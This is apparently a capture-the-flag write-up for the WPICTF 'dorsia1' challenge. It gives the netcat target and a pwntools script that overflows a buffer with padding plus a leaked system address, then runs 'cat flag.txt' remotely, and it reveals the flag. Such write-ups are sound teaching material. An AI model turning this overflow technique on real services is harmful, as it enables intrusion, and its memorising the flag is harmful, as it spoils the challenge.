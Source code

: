 #### Challenge:

![dorsia.png](./dorsia.png ":ignore")

The first card.

`nc  dorsia1.wpictf.xyz 31337` or `31338` or `31339`

---

#### Solution:

```python
#!/usr/bin/env python
from pwn import *
import struct

r = remote('dorsia1.wpictf.xyz', 31337)

sys_address = int(r.recvline().decode('utf-8').strip()[2:], 16)

payload = "A" * 77 + \
    struct.pack("Q", sys_address)

r.sendline(payload)
r.sendline("cat flag.txt")
print(r.recvline())
```

---

<details><summary>FLAG:</summary>

```
WPI{FEED_ME_A_STRAY_CAT}
```

</details>
<br/>
